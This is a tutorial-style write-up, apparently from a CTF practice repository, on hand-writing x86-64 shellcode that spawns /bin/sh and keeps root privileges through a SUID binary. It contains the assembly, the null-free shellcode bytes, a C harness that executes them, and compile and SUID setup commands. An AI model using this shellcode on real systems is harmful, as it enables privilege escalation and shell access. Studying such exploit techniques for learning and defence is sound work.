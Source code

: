 # Creating a reuid(0,0) execve("/bin/sh") shellcode

# Introduction
I was sitting the other day, struggling with getting a root shell on a challenge. The concept of the challenge was simple. You got SSH credentials and there was a binary file owned by root, with the SUID bit set.

If you just do an execve("/bin/sh") on this binary, your shell will just drop privileges and you will end up with a normal user shell.

Calling setuid(0) did absolutely nothing for me and I still ended up with a normal user shell.

Although this challenge wasn't quite intended to be solved by getting a root shell. I was determined to do so and found out that you can call execve on /bin/sh with the -p parameter. And I created an exploit that did exactly this.

After discussing my overly complicated exploit with a friend, it turned out that I had gotten the idea completely wrong.

To keep privileges in the shell you just need to make sure that the uid is set to 0 and the euid is set to 0.

I looked around on http://shell-storm.org/shellcode/ and realized that although there are shellcodes which call /bin/sh with setuid(0). There are none which call /bin/sh with both setuid(0) and seteuid(0). They do however exist for ash, bash etc..

So I decided that I would like to write my own

# Writing the shell code
I decided to write just the execve("/bin/sh") part first, as I have done this before.

This is what I ended up with:

```C
xor rax, rax //Empty rax register
add rax, 0x3b //Move in execve byte
xor rsi, rsi // empty rsi register
xor rdx,rdx //empty rdx register
mov rbx, 0x68732f6e69622f2f //move "//bin/sh" into rbx
shr rbx, 8 //Change "//bin/sh" to "/bin/sh"
push rbx //Push /bin/sh onto the stack
mov rdi, rsp // move the pointer to /bin/sh on the stack into rdi
syscall //Call it
```
I use https://defuse.ca/online-x86-assembler.htm#disassembly to turn my assembly into shellcode which gives me:
```
\x48\x31\xC0\x48\x83\xC0\x3B\x48\x31\xF6\x48\x31\xD2\x48\xBB\x2F\x2F\x62\x69\x6E\x2F\x73\x68\x48\xC1\xEB\x08\x53\x48\x89\xE7\x0F\x05
```
I got what I need to set the different registers to from the following syscall table: https://filippo.io/linux-syscall-table/

A couple of things to note about the shellcode:
1) I only push to the stack once. I like to push as little as possible to the stack, in case my stack pointer will be on top of my executable code (this can happen if you sigret for example)

2) I empty all the registers, even though it might be initialized to 0 when I jump on the stack. This makes the shellcode versatile and makes it able to be used for other exploits as well.

3) There are no null bytes in the shellcode. Again this makes it way more versatile as a lot of input functions read until they receive a null byte.

I then decided to test my shellcode. I didn't have a copy of the old binary file laying around so I decided to create a test binary which just executes my shellcode for me

I can not take credit for the testing code. The code is taken from https://gist.github.com/securitytube/5318838 where I've only done slight modifications:

```C
#include<stdio.h>
#include<string.h>


int main(void)
{
	unsigned char code[] = "\x48\x31\xC0\x48\x83\xC0\x3B\x48\x31\xF6\x48\x31\xD2\x48\xBB\x2F\x2F\x62\x69\x6E\x2F\x73\x68\x48\xC1\xEB\x08\x53\x48\x89\xE7\x0F\x05";
  printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```
Modifications are:

1) Moving code string inside the main loop to make sure it's on the stack instead of in a section for global variable in the compiled binary

2) Changing the char code to my own payload

I then compiled it with:
```
gcc shellcodetester.c -o test1 -fno-stack-protector -z execstack -no-pie
```
And ran the following linux commands on the compiled binary to give it suid bit and make it owned by root:

```bash
sudo chown 0:0 ./test1
sudo chmod u+s ./test1
```

Running the binary we get a shell but only with normal user privileges:
![alt text](https://github.com/Mymaqn/roadtopwn/tree/main/shellcode/Creating_reuid_execve_shellcode/shellrun1.jpg)
